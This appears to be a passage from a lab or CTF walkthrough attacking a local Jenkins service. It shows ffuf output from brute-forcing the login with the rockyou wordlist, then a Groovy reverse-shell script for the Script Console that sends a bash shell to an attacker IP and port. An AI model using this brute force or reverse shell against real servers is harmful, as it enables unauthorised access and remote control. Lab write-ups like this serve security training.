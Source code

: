 ```bash
 :: Wordlist         : USERFUZZ: users.txt
 :: Wordlist         : PASSFUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Connection: close
 :: Header           : Referer: http://localhost:8001/loginError
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Host: localhost:8001
 :: Header           : User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Origin: http://localhost:8001
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Cookie: JSESSIONID.01c6bbcd=node01bkv92y8hsy5gepu3k07vyrwo0.node0
 :: Data             : j_username=USERFUZZ&j_password=PASSFUZZ&from=%2F&Submit=Sign+in
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Regexp: loginError
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1]
    * USERFUZZ: admin
    * PASSFUZZ: [REDACTED]
```

After a short time we should get the password of the admin user.  
We use it to access the Jenkins dashboard.  
We can continue exploring by spawning a shell inside the service container.  
Jenkins allows to run Groovy scripts in its "Script Console", located at /script.  
Access it and paste the following script.

```bash
String host="10.10.92.47";
int port=1234;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Replace the host string with the IP of your attack machine.
Start a listener and run the script.
